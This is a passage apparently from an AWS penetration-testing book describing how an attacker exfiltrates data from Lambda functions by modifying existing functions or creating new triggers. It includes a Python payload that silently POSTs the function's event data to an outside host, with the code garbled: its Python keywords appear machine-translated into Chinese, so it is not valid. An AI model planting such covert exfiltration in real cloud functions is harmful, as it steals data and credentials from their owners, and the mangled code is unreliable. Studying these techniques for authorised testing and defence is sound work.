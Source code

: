 ![](img/286eb121-c4d3-46c6-ba28-336429a9dc39.png)

Receiving a POST request containing all the environment variables of the Lambda function

# Data exfiltration

Data exfiltration will likely work very similarly to how we escalated our privileges previously, in that we will most likely edit an existing function and exfiltrate data from it like that. There are a lot of different ways we could do this, some of which are listed here:

*   Modify an existing function and exfiltrate the data that it is receiving through the `"event"` and `"context"` parameters
*   Create a new function and associated trigger to respond to certain events in the AWS environment, such as in [Chapter 11](0d6c1dfb-b078-4ed0-a92a-b86751ef1db8.xhtml),* Using Boto3 and Pacu to Maintain AWS Persistence* where we exfiltrated credentials every time a new user was created
*   Modify an existing function and place our exfiltration payload somewhere in the middle of the function to exfiltrate data that is gathered/modified during the function's normal execution

There are many other attack vectors here, as well; you just need to get creative.

If we just wanted our payload to exfiltrate the value passed to the `"event"` parameter, we could use a slightly modified version of the previous payload:

```

尝试：

从 botocore.vendored 导入请求

requests.post（'http://1.1.1.1'，json = event，timeout = 0.01）

除外：

通过

```
